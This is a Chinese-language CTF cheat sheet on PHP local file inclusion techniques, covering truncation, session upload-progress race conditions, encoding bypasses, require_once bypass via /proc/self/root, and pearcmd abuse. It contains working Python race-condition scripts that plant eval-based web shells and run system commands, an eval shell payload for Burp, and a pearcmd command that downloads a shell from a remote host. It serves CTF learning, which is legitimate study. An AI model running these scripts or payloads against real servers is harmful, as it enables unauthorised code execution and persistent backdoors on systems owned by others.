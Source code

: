 ## 字符串截断

```
用%00 截断(php<5.3.4)

用垃圾字符 . / 进行截断（php版本小于5.2.8）

用? 截断(要求：allow_url_fopen On  allow_url_include On)

include($c.".php");对伪协议没有影响，照样可以用data://,<?php ?>进行闭包
```

## 条件竞争文件包含

[PHP: Session 上传进度 - Manual](https://www.php.net/manual/zh/session.upload-progress.php)

简单来说：当session.upload_progress.enabled开启时（默认开启），但session.upload_progress.cleanup默认开启，即POST的数据一旦被读完，就会被清空，session.upload_progress.prefix，session.upload_progress.name会使键名可控，

session可能的位置：

```
/var/lib/php/
/var/lib/php/sessions/
/tmp/
/tmp/sessions/
```

可采用bp或脚本，抢在数据被清空，先进行文件包含

**bp**

搭建网站然后抓包

```
<!DOCTYPE html>
<html>
<body>
<form action="http://xxxxxxx:8080/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

添加`Cookie:PHPSESSID=flag`，在`Content-Disposition:... PHP_SESSION_UPLOAD_PROGRESS`下面两行增加`<?php @eval($_POST[0]);?><?php phpinfo();?>`

最后抓包靶机?file=/tmp/sess_flag，然后post命令即可

**脚本**

```
import threading
import io
import requests

url='http://e452861c-2e24-45d7-85cb-081b143cf342.challenge.ctf.show:8080/'
sessionid='xxx'
def write(session):
    fileBytes=io.BytesIO(b'a'*1024*50)
    while True:
        response=session.post(url,
        data={'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'},
        cookies={'PHPSESSID':sessionid},
        files={'file':('xxx.jpg',fileBytes)}
        )
        #printf(response)
def read(session):
    data = {'1': "file_put_contents('/var/www/html/2.php','<?php eval($_POST[2]);?>');"}
    while True:
        response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,cookies={'PHPSESSID':sessionid})
        response2=session.get(url+'2.php')
        if response2.status_code==200:
            print('OK')

if __name__=='__main__':
    event=threading.Event()
    with requests.session() as session:
        for i in range(5):#根据实际情况调整进程
            threading.Thread(target=write,args=(session,)).start()
        for i in range(10):
            threading.Thread(target=read,args=(session,)).start()
    event.set()#初始化
```

有时候可能无法用file_put_contents函数，则用以下脚本

```
import io

import requests
import threading  # 多线程

from cffi.backend_ctypes import xrange

sessid = '0'
target = 'http://1.14.71.254:28592/'
file = 'ph0ebus.txt'  # 上传文件名
f = io.BytesIO(b'a' * 1024 * 50)  # 文件内容，插入大量垃圾字符来使返回的时间更久，这样临时文件保存的时间更长


def write(session):
    while True:
        session.post(target, data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_GET["cmd"]);?>'},
                     files={'file': (file, f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post(
            f"{target}?mode=foo&file=/tmp/sess_{sessid}&cmd=system('cd /;ls;cat nssctfasdasdflag');")
        if file in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+]retry")
            # print(resp.text)


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in xrange(1, 30):  # 每次调用返回其中的一个值，内存空间使用极少，因而性能非常好
            threading.Thread(target=write, args=(session,)).start()
            # target：在run方法中调用的可调用对象，即需要开启线程的可调用对象，比如函数或方法；args：在参数target中传入的可调用对象的参数元组，默认为空元组()
        for i in xrange(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

## 关键词绕过

如果题目是include的话还可以url编码来绕过，因为include会自动url解码一次

```
php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=index.php
```

## opcache缓存

https://xz.aliyun.com/t/223?time__1311=Cqjhq%2BOGCD8KDsD7G3OqGwqQqOxfxrbD&alichlgref=https%3A%2F%2Fxiaolong22333.top%2F

## 文件包含中的RCE

## 绕过包含次数限制

我们知道`include_once` `require_once`对于同一个文件只能包含一次，有没有办法多次包含呢？

WMCTF2020 make php great again 2.0这个题：

```javascript
<span class="hljs-meta"><?php</span>
<span class="hljs-keyword">require_once</span>(<span class="hljs-string">'flag.php'</span>);
<span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'content'</span>])) {
    <span class="hljs-variable">$content</span> = <span class="hljs-variable">$_GET</span>[<span class="hljs-string">'content'</span>];
    <span class="hljs-keyword">require_once</span>(<span class="hljs-variable">$content</span>);
} 
```

复制

已经包含了flag.php一次了，那么就没办法继续包含它了。解题方法如下：

```javascript
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

复制

路径中的`/proc/self/root`就表示`/` 所以`/proc/self/root/proc/self/root···`就一直表示`/`路径。至于为什么可以这样，可以看[php源码分析 require_once 绕过不能重复包含文件的限制](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.anquanke.com%2Fpost%2Fid%2F213235&source=article&objectId=2145160)的分析。

## 侧信道攻击

[synacktiv/php\_filter\_chains\_oracle\_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

[The End of AFR? - 跳跳糖](https://tttang.com/archive/1755/#toc_summary)

[PHP 过滤器链：从基于错误的 oracle 读取文件](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)

## pearcmd.php

[Docker PHP裸文件本地包含综述 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

可以看看p神的文章

在服务器上启动

```
<?php
echo 'hello <?php phpinfo();?> <?php @eval($_POST[\'shell\']);?>';
?>
```

然后用pear中的download上传即可

```
/?file=peclcmd&+download+http://vps/d.php
```

然后正常命令执行即可
